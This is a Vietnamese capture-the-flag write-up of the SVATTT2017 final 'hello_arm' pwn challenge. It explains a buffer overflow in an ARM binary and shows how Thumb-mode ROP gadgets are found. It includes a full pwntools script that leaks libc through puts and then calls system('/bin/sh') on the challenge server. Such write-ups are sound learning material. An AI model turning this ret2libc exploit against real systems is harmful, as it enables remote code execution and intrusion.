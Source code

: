 layout: post
title: "[SVATTT2017 Final Round] [Daemon] [Pwn] hello_arm"


Sau khi thọt ở vòng sơ khảo với bài formatstring. Mình đã phục thù với bài daemon noteservice . Nhưng lại ngã với bài hello_arm.... .

Trong buổi thi thì BTC có cho file img arm để tạo env debug. Xui làm sao hôm đó load file đó lại không ra mạng được, không setup được gdb. Mình down src gdb về build nhưng đến cuối lại bị failed. Thế là hôm đó quỳ với bài này... 

Về nhà mình đã tự build img arm và setup peda-arm để debug.

Link các challenges đã được VNSEC public : https://docs.google.com/spreadsheets/d/e/2PACX-1vQ3hmA1FHf-a2uymoaXk8Cu8yvji_0mYI2EnPbmSzRHoiWMwPuLXj_OpaLcqEtYHYepcI3GG3rEIpEM/pubhtml?gid=0&single=true



Check file: 

    hello_arm.1: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=c81cfe892f89ccc0d55b9e5d4ec40048b00de0d6, stripped
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : ENABLED
    PIE       : disabled
    RELRO     : Partial



Quăng vào IDA thì dễ dàng thấy lỗi bof ở đây

    int sub_1054C()
    {
      int v1; // [sp+0h] [bp+0h]
    
      puts("Overflow me.");
      read(0, &v1, 1024u); // <--- bof
      return puts("End");
    }



ta thấy ins SUB SP,SP, #0x80 với SP là reg stack pointer nên ta cần padding 0x84 để có thể overwrite địa chỉ trả về.

Bài này có bật ASLR trên server nên cần phải leak địa chỉ libc base trước. 

Để có thể leak được thì cần đưa địa chỉ GOT vào thanh ghi R0. Và cần một gadget dạng pop {xxx,pc} để đưa hàm cần gọi vào reg PC (program counter).

dùng ROPgadget để thử tìm gadget cần :

ROPgadget --binary hello_arm

1051c:	e8bdb913 	pop	{r0, r1, r4, r8, fp, ip, sp, pc} (popret)

nhưng không control được R0. 

Đến đây thì mình đã stuck. Nhưng chợt nhớ đến hint của BTC là thumb2-mode .

Sau khi tìm hiểu (http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0344c/Beiiegaf.html ) thì được biết rằng architecture arm có 3 loại instruction sets là : ARM, thumb và thumb2. ARM dùng instruction 32-bit, thumb dùng instruction 16-bit và thumb2 32 bit mixing giữa 2 loại này (hỗ trợ thumb trên 32-bit và ARM). 

Trong thumb2 mode thì có một quy định để biết instruction nào của mode nào (arm hay thumb) bằng cách (https://stackoverflow.com/questions/37836861/jump-between-thumb-and-arm  ) 

- nếu bit 0 của địa chỉ là 0 thì CPU sẽ execute dưới dạng arm code
- nếu bit 1 của địa chỉ là 1 thì CPU sẽ execute dưới dạng thumb code
- Nếu parse sai thì CPU sẽ báo lỗi 

Đây là lí do trong code mình có mấy đoạn +1 (Qua debug mới thấy :)) )

Vì mặc định của của ROPgadget sẽ không hiện các instruction thumb nên cần phải thêm options --thumb

ROPgadget --thumb --binary hello_arm

Ở đây có 2 gadget mình cần là :

0x000105fc : pop.w {r3, r4, r5, r6, r7, r8, sb, pc} ; lsrs r2, r6, #4 ; movs r1, r0 ; lsrs r0, r5, #4 ; movs r1, r0 ; bx lr (popR3)

0x000105c6 : mov r0, r3 ; pop {r7, pc} (movR0)

Payload mình sẽ là :

- popret 
- popR3
- got read
- mov R0 ,R3 
- plt puts
- return to main

    	payload=""
    	payload+='B'*(0x80+4) 
    	payload+= p32(popret+1)
    	payload+="A"*4+ p32(popr3+1)
    	payload+=p32(file.got['read']) # parameter
    	payload+="A"*24
    	payload+=p32(movr0+1)
    	payload+="AAAA"
    	payload+=p32(file.symbols['puts']) # call function
    	payload+="BBBB"*7
    	payload+=p32(ret2main+1)

Sau khi leak được libc, tiếp theo chỉ cần tính các offset binsh và system để call system("/bin/sh")

script : 

    from pwn import *
    
    file = ELF('hello_arm.1')
    libc = ELF('./libc-2.23.so')
    
    
    
    def main(argv):
    	if len(argv)<2:
    		r = remote('localhost', 31335)
    	else:
    		r = remote('119.81.181.254',31335)
    
    	ret2main = 0x0001054C
    
    	r.recvuntil('Overflow me.\n')
    	
    	popret = 0x1051c
    	# 1051c:	e8bdb913 	pop	{r0, r1, r4, r8, fp, ip, sp, pc}
    	popr3=0x000105fc
    	#0x000105fc : pop.w {r3, r4, r5, r6, r7, r8, sb, pc} ; lsrs r2, r6, #4 ; movs r1, r0 ; lsrs r0, r5, #4 ; movs r1, r0 ; bx lr
    	movr0=0x000105c6
    	#0x000105c6 : mov r0, r3 ; pop {r7, pc}
    	
    	#pause()
    	
    	payload=""
    	payload+='B'*(0x80+4) 
    	payload+= p32(popret+1)
    	payload+="A"*4+ p32(popr3+1)
    	payload+=p32(file.got['read'])
    	payload+="A"*24
    	payload+=p32(movr0+1)
    	payload+="AAAA"
    	payload+=p32(file.symbols['puts'])
    	payload+="BBBB"*7
    	payload+=p32(ret2main+1)
    	
    	r.sendline(payload)
    	r.recvuntil("End")
    	print r.recvline()
    
    	libc.address=u32(r.recv(4))-libc.symbols['read']
    	syst=libc.symbols['system']
    	binsh=next(libc.search('/bin/sh\x00'))
    
    	log.info("libc base : " + hex(libc.address))
    	log.info("system : " + hex(syst))
    	log.info("binsh : " + hex(binsh))
    
    	
    	payload=""
    	payload+='B'*(0x80+4) 
    	payload+= p32(popret+1)
    	payload+="A"*4+ p32(popr3+1)
    	payload+=p32(binsh)
    	payload+="A"*24
    	payload+=p32(movr0+1)
    	payload+="AAAA"
    	payload+=p32(syst)
    	payload+="BBBB"*7
    	payload+=p32(ret2main+1)
    	
    	r.recvuntil('Overflow me.\n')
    	r.sendline(payload)
    
    	r.interactive()
    
    if __name__ == '__main__':
    	main(sys.argv)





Bài này cũng không khó, chủ yếu phải setup được môi trường ... hi vọng lần sau sẽ không ngã với arm nữa ...


